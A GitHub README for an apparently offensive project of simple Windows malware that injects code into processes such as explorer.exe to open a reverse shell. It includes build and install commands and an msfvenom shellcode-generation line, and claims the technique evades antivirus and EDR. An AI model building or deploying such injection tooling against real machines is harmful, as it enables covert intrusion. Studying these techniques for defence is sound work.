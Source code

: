
<div>
    <img src="https://img.shields.io/badge/Language%20-C++-darkred.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Tools%20-Windows API-green.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Target OS%20-Windows 7..11-blue.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Project%20-Malware | Process Injection-grey.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Hacking tool | Cybersecurity Awareness%20-teste?style=flat-square style="max-width: 100%;">
</div>


# Simple Windows malware | Process injection

Simple payload for hacking Windows and process injection. Using the windows API for the C programming language. 

* **Windows API:** https://learn.microsoft.com/pt-br/windows/win32/apiindex/windows-api-list

### **Process injection**

![ezgif com-video-to-gif](https://github.com/Jsmoreira02/Wind0wsM4lware_/assets/103542430/090ca836-8c52-4feb-ba99-911b6dbabd90)


Process injection is an evasive attack method, that hackers use to gain access to the system by executing their malicious code in the address space of a legitimate process, hiding the malware and often not generating any suspicion about an attacker on the system, as the malicious code becomes difficult to detect. Process injections also evade detection by any antivirus, application control, or endpoint detection and response systems running on the network, because the infected processes are viewed as legitimate. 

Hackers usually use less suspicious or more important system processes such as: svchost.exe, rundll32.exe or even explorer.exe.

* **Explorer_injection.exe:** Performs a shell connection on the reverse target computer at the execution address of the explorer.exe process. 

#

* **How to find the PID of a running windows process:**

![Screenshot_20231107_182320](https://github.com/Jsmoreira02/Wind0wsM4lware_/assets/103542430/1d9ab09e-04ac-45e2-8894-dfca0117868f)


```bash
  tasklist | findstr <process name>
```
=> CMD syntax: `Process_injection.exe <PID>`

# Compiling | Install

* **Installation:** 
```bash 
git clone https://github.com/Jsmoreira02/Wind0wsM4lware_.git
cd Wind0wsM4lware_
make
```

* **Compiling just one of the files with "Makefile":** `make Process_injection` `make Win_malware` `make explorer_injection`

* **Compiling the code (Windows):** `gcc code.c -o code` or `make (In case mingw-w64 is installed)`

# MinGW-w64 Instalation:

**Debian/Ubuntu OS:** 
```bash 
sudo apt install mingw-w64-x86-64 (64-bits)
or
sudo apt install mingw-w64 (32-bits)
```

**Fedora**:
```bash 
sudo dnf install mingw64-gcc-c++
```

**Arch Linux**:
```bash 
sudo pacman -S mingw-w64-gcc
```

=> More Info: https://www.mingw-w64.org/

=> Shellcode generator: `msfvenom -p <Payload> LHOST=<IP> LPORT=<LOCAL PORT> --platform windows --arch <x64/x86> -f c`

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It primarily serves as a proof of concept, is intended to raise awareness about cybersecurity and can be improved in many ways.
